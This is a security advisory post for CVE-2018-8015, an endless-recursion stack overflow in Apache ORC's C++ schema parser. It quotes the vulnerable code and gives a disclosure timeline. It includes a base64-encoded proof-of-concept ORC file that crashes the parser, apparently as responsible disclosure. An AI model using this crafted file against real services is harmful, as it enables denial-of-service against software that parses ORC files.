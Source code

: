 ```yaml
---
layout: post
title: "CVE-2018-8015: Denial of Service in Apache ORC"
---
```


A malformed ORC file can trigger an endlessly recursive function call in the
C++ parser which results in a segmentation fault.

The impact of this bug is most likely denial-of-service against software that
uses the C++ ORC file parser but may lead to possible code execution.

In addition, the Java parser is similarly affected but a stack overflow in
Java simply results in an exception being raised.

# Affected Versions

According to the Apache ORC team, Apache ORC versions 1.0.0 to 1.4.3 are
affected.

# Description

The vulnerable lines of code is in `c++/src/TypeImpl.cc` and is triggered when
parsing the schme contained in the `Footer` section of the ORC file.

An ORC database schema is defined as a type tree. The root of any ORC database
is a Struct which can contain other types, including another Struct. In the
`Footer` section, the type tree is encoded as  a linked-list like structure
where compound types like a Struct contain an id pointing to the next type in
the tree.

```c++
390    case proto::Type_Kind_STRUCT: {
391      TypeImpl* result = new TypeImpl(STRUCT);
392      uint64_t size = static_cast<uint64_t>(type.subtypes_size());
393      std::vector<Type*> typeList(size);
394      std::vector<std::string> fieldList(size);
395      for(int i=0; i < type.subtypes_size(); ++i) {
396        result->addStructField(type.fieldnames(i),
397                               convertType(footer.types(static_cast<int>
398                                                        (type.subtypes(i))),
399                                           footer));
400      }
401      return std::unique_ptr<Type>(result);
402    }
```

The above code parses the type tree encoded in the `Footer` section. When it
encounters a Struct (or Union) type, it recursively parses all subtypes.
However, it does not account for the case where a subtype's `next` id points
to the parent type. This results in an endless recursion that eventually blows
the stack.

# Proof of Concept

The file `poc.orc` is included here as a base64 encoded file.

```shell
CAMQ9AMaACILCAwSAQEaBEFBQUEiCwgMEgEAGgRBQUFBKgA6AAglEAAiAgAMMAaC
9AMDT1JDEQgDEPQDGgAiCwgMEgEBGgRBQUFBIgsIDBIBABoEQUFBQSoAOgAIJRAA
IgIADDAGgvQDA09SQxE=
```

Attempting to parse the file with `orc-contents` results in a segmentation
fault.

```shell
$ ./orc-contents poc.orc
Segmentation fault
```

# Credits

This issue was discovered by Terry Chia (Ayrx).

# Timeline

* 27 Feb 2018 - Vulnerability report to private@orc.apache.org.
* 18 May 2018 - Apache ORC 1.4.4 and 1.5.0 released that fixes the
vulnerability. CVE-2018-8015 assigned.
